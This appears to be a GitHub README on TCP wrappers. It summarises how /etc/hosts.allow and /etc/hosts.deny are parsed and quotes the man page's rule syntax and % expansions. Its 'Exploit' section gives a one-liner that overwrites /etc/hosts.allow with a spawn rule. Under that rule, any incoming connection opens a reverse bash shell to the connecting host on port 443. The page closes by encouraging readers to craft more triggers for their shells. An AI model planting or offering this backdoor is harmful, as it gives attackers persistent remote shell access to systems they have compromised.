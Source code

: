tcp-wrappers for the win!
======================

**How it works**

When a client request is received by a TCP wrapped service, it takes the following basic steps:

1. References /etc/hosts.allow. — The TCP wrapped service sequentially parses the /etc/hosts.allow file and applies the first rule specified for that service. If it finds a matching rule, it allows the connection. If not, it moves on to step 2.

2. References /etc/hosts.deny. — The TCP wrapped service sequentially parses the /etc/hosts.deny file. If it finds a matching rule is denies the connection. If not, access to the service is granted.


**How it is parsed**

ACCESS CONTROL RULES

Each access control file consists of zero or more lines of text.  These lines are processed in order of appearance. The search terminates when a match is found.

A newline character is ignored when it is preceded by a backslash character. This permits you to break up long lines so that they are easier to edit.

Blank lines or lines that begin with a `#´ character are ignored. This permits you to insert comments and whitespace so that the tables are easier to read.

All other lines should satisfy the following format, things between [] being optional:


**Syntax**
```shell-session
<daemon list>: <client list> [: <option>: <option>: ...]
```
**Translating...**

```shell-session
<daemon_list>: <client list> [: <shell_command> ]
```

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=mOOZwodcm40" target="_blank"><img src="http://img.youtube.com/vi/mOOZwodcm40/0.jpg" alt="Backdoor via TCP wrappers FTW!" width="480" height="360" border="10" /></a>

**Exploit**
```shell-session

echo 'ALL: ALL: spawn (bash -c "/bin/bash -i >& /dev/tcp/"%a"/443 0>&1") & :allow' > /etc/hosts.allow

```

**Understand expansions...**

```shell-session
% EXPANSIONS
       The following expansions are available within shell commands:

       %a (%A)
              The client (server) host address.

       %c     Client information: user@host, user@address, a host name, or just an address, depending on how much information is available.

       %d     The daemon process name (argv[0] value).

       %h (%H)
              The client (server) host name or address, if the host name is unavailable.

       %n (%N)
              The client (server) host name (or "unknown" or "paranoid").

       %r (%R)
              The clients (servers) port number (or "0").

       %p     The daemon process id.

       %s     Server information: daemon@host, daemon@address, or just a daemon name, depending on how much information is available.

       %u     The client user name (or "unknown").

       %%     Expands to a single `%´ character.

       Characters in % expansions that may confuse the shell are replaced by underscores.
```

Hey! You can use your imagination now and take advantage of EXPANSIONS and create more complex filters to trigger your shells! Keep evolving my friend!

